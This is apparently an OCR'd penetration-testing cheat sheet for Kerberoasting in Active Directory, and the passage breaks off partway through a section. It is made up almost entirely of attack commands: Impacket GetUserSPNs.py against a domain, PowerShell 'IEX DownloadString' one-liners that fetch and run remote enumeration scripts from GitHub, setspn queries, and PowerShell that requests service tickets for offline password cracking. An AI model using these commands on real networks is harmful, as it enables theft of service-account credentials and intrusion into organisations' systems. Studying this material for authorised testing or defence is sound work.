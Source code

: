 ========================================================================================================================
						Kerberos Attacks
========================================================================================================================



[+] Kerbose attack

./GetUserSPNs.py -dc-ip 192.168.168.10 sittingduck.info/notanadmin

https://github.com/CoreSecurity/impacket/blob/master/examples/GetUserSPNs.py



[+] GetUserSPNs.ps1


IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercon
tent.com/nidem/kerberoast/master/GetUserSPNs.ps1')




[+] Get-SPN


IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/
nullbind/Powershellery/master/Stable-ish/Get-SPN/Get-SPN.psm1")



Get-SPN -type service -search "MSSQL*"



[+] SetSPN

setspn -t sittingduck -q */*



========================================================================================================================
					Requesting SPN Kerberos Tickets
========================================================================================================================



[+] PowerShell Requesting

Add-Type -AssemblyName System.IdentityModel  

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/web01.medin.local"


Add-Type -AssemblyName System.IdentityModel

setspn.exe -T medin.local -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System. IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }  

[+] PowerShell Requesting - Just Users


Add-Type -AssemblyName System.IdentityModel
